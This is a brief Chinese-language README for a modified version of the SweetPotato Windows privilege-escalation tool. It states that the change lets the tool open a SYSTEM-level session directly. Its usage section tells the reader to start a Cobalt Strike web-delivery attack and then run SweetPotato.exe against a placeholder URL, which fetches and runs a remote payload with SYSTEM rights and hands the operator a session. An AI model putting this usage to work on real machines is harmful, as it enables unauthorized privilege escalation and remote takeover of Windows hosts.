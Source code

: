 对https://github.com/CCob/SweetPotato进行修改，使其可以直接上线一个system的session。

效果图：

![截图_2020-04-14_12-28-56.png](http://ww1.sinaimg.cn/large/007F8GgBly1gdt6uxbod2j31920i0q5f.jpg)

使用方法：

使用cs启动一个web攻击的简体

SweetPotato.exe www.xxx.com/xxx.xxx

即可获得会话
